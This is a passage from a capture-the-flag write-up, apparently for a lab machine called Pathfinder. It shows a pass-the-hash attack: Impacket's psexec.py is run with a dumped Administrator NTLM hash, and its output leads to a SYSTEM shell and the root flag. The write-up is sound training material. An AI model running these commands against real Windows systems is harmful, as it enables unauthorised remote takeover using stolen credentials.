 As you can see, we have __NTLM__ hash for the Administrator account. We can use this to perform __Pass The Hash attack__ and gain elevated access to the system. Also, we can use Impacket's [psexec.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py) for this too.

```console
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py MEGACORP.LOCAL/Administrator@10.10.10.30 -hashes <NTML hash>
```

This outputs:

```console
$ python3 /usr/share/doc/python3-impacket/examples/psexec.py MEGACORP.LOCAL/Administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file xKTsiDfe.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service aCAn on 10.10.10.30.....
[*] Starting service aCAn.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
And we are root! Now we can obtain the root flag, which is located in `C:\Users\Administrator\Desktop`{: .filepath}.

We are done. Pathfinder has been Pwned!